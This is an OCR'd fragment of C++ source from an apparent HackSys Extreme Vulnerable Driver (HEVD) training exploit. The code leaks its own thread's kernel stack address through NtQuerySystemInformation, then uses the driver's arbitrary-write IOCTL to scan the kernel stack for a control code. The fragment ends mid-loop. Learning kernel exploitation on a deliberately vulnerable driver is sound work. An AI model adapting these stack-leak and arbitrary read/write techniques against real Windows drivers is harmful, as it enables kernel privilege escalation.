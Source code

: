 ```cpp
    if (status != STATUS_SUCCESS) {
        printf("[-] NtQuerySystemInformation failed with error code 0x%X\n", status);
        return 1;
    }

    UNICODE_STRING myProc = { 0 };
    my_RtlInitUnicodeString myRtlInitUnicodeString = (my_RtlInitUnicodeString)GetProcAddress(ntdll, "RtlInitUnicodeString");
    my_RtlEqualUnicodeString myRtlEqualUnicodeString = (my_RtlEqualUnicodeString)GetProcAddress(ntdll, "RtlEqualUnicodeString");
    if (myRtlInitUnicodeString == NULL || myRtlEqualUnicodeString == NULL) {
        printf("[-] Failed initializing unicode functions\n");
        bResult = FALSE;
        goto _cleanup;
    }

    myRtlInitUnicodeString(&myProc, L"HevdExploits.exe");
    printf("[+] Iterating processes threads, looking for our kernel stack address\n");
    PVOID stackLimit = NULL;
    while (pProcessInfo != NULL) {
        if (myRtlEqualUnicodeString(&(pProcessInfo->ImageName), &myProc, TRUE)) {
            printf("[*] Process: %wZ\n", pProcessInfo->ImageName);
            for (unsigned int i = 0; i < pProcessInfo->NumberOfThreads; i++) {
                PVOID stackBase = pProcessInfo->Threads[i].StackBase;
                stackLimit = pProcessInfo->Threads[i].StackLimit;
                printf("\tStack base 0x%llx\n", stackBase);
                printf("\tStack limit 0x%llx\n", stackLimit);
                break;
            }
        }

        if (!pProcessInfo->NextEntryOffset) {
            pProcessInfo = NULL;
        } else {
            pProcessInfo = (PSYSTEM_EXTENDED_PROCESS_INFORMATION)((ULONG_PTR)pProcessInfo + pProcessInfo->NextEntryOffset);
        }
    }
    printf("[+] Searching down from stack limit: 0x%llx\n", stackLimit);
    intptr_t stackSearch = (intptr_t)stackLimit - 0xff0;

    BOOL foundControlCode = FALSE;
    while (stackSearch < (intptr_t)stackLimit - 0x10) {
        wwwBuf.what = stackSearch;
        wwwBuf.where = &whereBuffer;

        bResult = DeviceIoControl(hDevice,                       // device to be queried
                                  HEVD_IOCTL_ARBITRARY_WRITE, // operation to perform
                                  &wwwBuf, sizeof(wwwBuf),                       // no input buffer
                                  NULL, 0,            // output buffer
                                  &junk,                         // # bytes returned
                                  (LPOVERLAPPED)NULL);          // synchronous I/O

        if (!bResult) {
            printf("[-] Failed sending IOCTL\n");
            bResult = FALSE;
            goto _cleanup;
        }
        if (whereBuffer == 0x22200B) {
            printf("[*] Found CTL_CODE in the stack at: 0x%llx\n", stackSearch);
            foundControlCode = TRUE;
            break;
        }
```